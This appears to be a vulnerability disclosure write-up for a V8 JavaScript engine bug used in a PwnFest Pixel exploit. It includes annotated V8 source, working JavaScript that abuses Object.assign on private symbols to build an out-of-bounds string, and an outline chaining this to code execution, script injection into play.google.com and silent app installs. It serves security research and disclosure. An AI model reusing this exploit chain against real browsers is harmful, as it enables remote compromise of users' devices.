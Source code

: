 pwnfest v8 bug, used in Pixel exploit. Here is the writeup from the reporter:

1.The Bug
In v8, private symbols are used as key to store private property in object, they shouldn't have been access by user javascript, But there is a seemingly trivial logical bug in FastAssign, this function hasn't filtered the keys which are private symbols which can be used to re-assign private properties.

MUST_USE_RESULT Maybe<bool> FastAssign(Handle<JSReceiver> to,
        Handle<Object> next_source) {
    // Non-empty strings are the only non-JSReceivers that need to be handled
    // explicitly by Object.assign.
    if (!next_source->IsJSReceiver()) {
        return Just(!next_source->IsString() ||
                String::cast(*next_source)->length() == 0);
    }

    // If the target is deprecated, the object will be updated on first store. If
    // the source for that store equals the target, this will invalidate the
    // cached representation of the source. Preventively upgrade the target.
    // Do this on each iteration since any property load could cause deprecation.
    if (to->map()->is_deprecated()) {
        JSObject::MigrateInstance(Handle<JSObject>::cast(to));
    }

    Isolate* isolate = to->GetIsolate();
    Handle<Map> map(JSReceiver::cast(*next_source)->map(), isolate);

    if (!map->IsJSObjectMap()) return Just(false);
    if (!map->OnlyHasSimpleProperties()) return Just(false);

    Handle<JSObject> from = Handle<JSObject>::cast(next_source);
    if (from->elements() != isolate->heap()->empty_fixed_array()) {
        return Just(false);
    }

    Handle<DescriptorArray> descriptors(map->instance_descriptors(), isolate);
    int length = map->NumberOfOwnDescriptors();

    bool stable = true;

    for (int i = 0; i < length; i++) {
        Handle<Name> next_key(descriptors->GetKey(i), isolate);  ----------------->hasn't filter the keys that are private symbols.
            Handle<Object> prop_value;
        // Directly decode from the descriptor array if |from| did not change shape.
        if (stable) {
            PropertyDetails details = descriptors->GetDetails(i);
            if (!details.IsEnumerable()) continue;
            if (details.kind() == kData) {
                if (details.location() == kDescriptor) {
                    prop_value = handle(descriptors->GetValue(i), isolate);
                } else {
                    Representation representation = details.representation();
                    FieldIndex index = FieldIndex::ForDescriptor(*map, i);
                    prop_value = JSObject::FastPropertyAt(from, representation, index);
                }
            } else {
                ASSIGN_RETURN_ON_EXCEPTION_VALUE(
                        isolate, prop_value, JSReceiver::GetProperty(from, next_key),
                        Nothing<bool>());
                stable = from->map() == *map;
            }
        } else {
            // If the map did change, do a slower lookup. We are still guaranteed that
            // the object has a simple shape, and that the key is a name.
            LookupIterator it(from, next_key, from,
                    LookupIterator::OWN_SKIP_INTERCEPTOR);
            if (!it.IsFound()) continue;
            DCHECK(it.state() == LookupIterator::DATA ||
                    it.state() == LookupIterator::ACCESSOR);
            if (!it.IsEnumerable()) continue;
            ASSIGN_RETURN_ON_EXCEPTION_VALUE(
                    isolate, prop_value, Object::GetProperty(&it), Nothing<bool>());
        }
        LookupIterator it(to, next_key, to);
        bool call_to_js = it.IsFound() && it.state() != LookupIterator::DATA;
        Maybe<bool> result = Object::SetProperty(
                &it, prop_value, STRICT, Object::CERTAINLY_NOT_STORE_FROM_KEYED);
        if (result.IsNothing()) return result;
        if (stable && call_to_js) stable = from->map() == *map;
    }

    return Just(true);
}


2. Exploit the Bug
The bug is trivial and the exploit is a little difficult. The main step is as follows:
step 1:make an out-of-bound string, Information disclosure
some JS functions have two private properties whoes keys are class_start_position_symbol and class_end_position_symbol

ggong@ggong-pc:~/ssd1/v8/out/ia32.debug$ ./d8 --allow-natives-syntax -e "%DebugPrint(eval('class x extends Array{}'))"
DebugPrint: 0x4420c88d: [Function]
- map = 0x5820cfb9 [FastProperties]
- prototype = 0x3af646ed
- elements = 0x3af08125 <FixedArray[0]> [FAST_HOLEY_ELEMENTS]
- initial_map = 
- shared_info = 0x3af779fd <SharedFunctionInfo x>
- name = 0x3af2512d <String[1]: x>
- formal_parameter_count = 0
- context = 0x3af63469 <FixedArray[177]>
- literals = 0x3af09841 <FixedArray[1]>
- code = 0x4b60a301 <Code: BUILTIN>
- properties = {
#length: 0x3af51bb9 <AccessorInfo> (accessor constant)
#name: 0x3af51bf1 <AccessorInfo> (accessor constant)
#prototype: 0x3af51c29 <AccessorInfo> (accessor constant)
    0x3af092a1 <Symbol: home_object_symbol>: 0x4420c8b1 <a x with map 0x5820cf8d> (data field at offset 0)
        0x3af0910d <Symbol: class_start_position_symbol>: 0 (data field at offset 1)   ------------->private property
        0x3af090d5 <Symbol: class_end_position_symbol>: 23 (data field at offset 2)    ------------->private property
}

These two private properties can be re-assigned by Object.assign. when toString of the function is called, an oob string is generated. We can get the ability of oob read by this oob string.  the sample code is as follows:
function getHiddenValue(){
    var obj = {};
    var oob = "/re/";
    //oob = oob.replace("re","*".repeat(0x2000));
    oob = oob.replace("re","*".repeat(0x100000));
    var str =  'class x extends Array{'+oob+"}";
        var fun = eval(str);
        Object.assign(obj,fun);
        return obj;
    }
function makeOobString(){
    var hiddenValue = getHiddenValue();
    var str =  'class x extends Array{}';
    var fun = eval(str); 
    Object.assign(fun,hiddenValue);
    var oobString = fun.toString();
    return oobString;
}

step 2: convert oob read to oob write
How to convert an oob read bug to oob write ??? I'll explain it in the following code which is the implementatin of javascript function escape.
static MaybeHandle<String> EscapePrivate(Isolate* isolate,
        Handle<String> string) { ------------------------------->assume the string is an oob string we constructed above.
    DCHECK(string->IsFlat());
    int escaped_length = 0;
    int length = string->length();

    {
        DisallowHeapAllocation no_allocation;
        Vector<const Char> vector = string->GetCharVector<Char>();
        for (int i = 0; i < length; i++) {  ------------------------>the length of the destination string is calculated here.
            uint16_t c = vector[i];
            if (c >= 256) {
                escaped_length += 6;
            } else if (IsNotEscaped(c)) {
                escaped_length++;
            } else {
                escaped_length += 3;
            }

            // We don't allow strings that are longer than a maximal length.
            DCHECK(String::kMaxLength < 0x7fffffff - 6);     // Cannot overflow.
            if (escaped_length > String::kMaxLength) break;  // Provoke exception.
        }
    }

    // No length change implies no change.  Return original string if no change.
    if (escaped_length == length) return string;

    Handle<SeqOneByteString> dest;
    ASSIGN_RETURN_ON_EXCEPTION(
            isolate, dest, isolate->factory()->NewRawOneByteString(escaped_length),--------------->allocated a string using the length calulated before, but this the functin NewRawOneByteString May modify the oob string, which lead to the required length is larger than the calculated escaped_length;
            String);
    int dest_position = 0;

    {
        DisallowHeapAllocation no_allocation;
        Vector<const Char> vector = string->GetCharVector<Char>();
        for (int i = 0; i < length; i++) {
            uint16_t c = vector[i];
            if (c >= 256) {
                dest->SeqOneByteStringSet(dest_position, '%');                       ------------------>The oob write will occur here
                dest->SeqOneByteStringSet(dest_position + 1, 'u');
                dest->SeqOneByteStringSet(dest_position + 2, HexCharOfValue(c >> 12));
                dest->SeqOneByteStringSet(dest_position + 3,
                        HexCharOfValue((c >> 8) & 0xf));
                dest->SeqOneByteStringSet(dest_position + 4,
                        HexCharOfValue((c >> 4) & 0xf));
                dest->SeqOneByteStringSet(dest_position + 5, HexCharOfValue(c & 0xf));
                dest_position += 6;
            } else if (IsNotEscaped(c)) {
                dest->SeqOneByteStringSet(dest_position, c);
                dest_position++;
            } else {
                dest->SeqOneByteStringSet(dest_position, '%');
                dest->SeqOneByteStringSet(dest_position + 1, HexCharOfValue(c >> 4));
                dest->SeqOneByteStringSet(dest_position + 2, HexCharOfValue(c & 0xf));
                dest_position += 3;
            }
        }
    }

    return dest;
}

step 3:oob write to arbitrary code execution
The oob write mentioned above can be used to overwrite an JSArrayBuffer object so that we can get arbitrary read/write, it's easy to overwirte the jit code to get arbitrary code execution.

step 4:install apps
RCE2UXSS, inject javascript to play.google.com to install any app;

step 5:launch apps
inline hook processingUserGesture and utilizeUserGesture to bypass guesture detection, use intent scheme to launch the installed app.
